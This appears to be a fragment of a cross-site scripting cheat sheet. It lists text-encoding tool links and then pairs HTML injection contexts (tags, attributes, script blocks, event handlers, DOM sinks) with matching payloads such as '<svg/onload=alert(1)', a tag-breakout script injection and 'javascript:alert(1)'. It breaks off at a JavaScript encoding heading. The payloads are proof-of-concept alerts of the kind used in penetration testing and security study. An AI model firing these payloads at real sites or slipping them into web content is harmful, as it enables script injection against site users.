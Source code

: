 https://checkserp.com/encode/unicode/  
http://www.unit-conversion.info/texttools/octal/  
http://www.unit-conversion.info/texttools/hexadecimal/  

### Other Examples

#### HTML Tag

```
<div>here</div>
```
->  
```
<svg/onload=alert(1)
```

#### HTML Tag Attributes

```
<input value="here"/></input>
 /><script>alert(1)</script>
```
  
#### Script Tag

```
<script>
    var name="here";
</script>
```
  
```
";alert(1);//
```

#### Event Attributes

```
<button onclick="here;">Okay!</button>
```

```
alert(1)
```

#### Dom Based

```
<script>var ok = location.search.replace("?ok=", "");domE1.innerHTML = "<a href=\'"+ok+"\'>ok</a>";</script>
```
  
```
javascript:alert(1)
```

### JavaScript Encoding
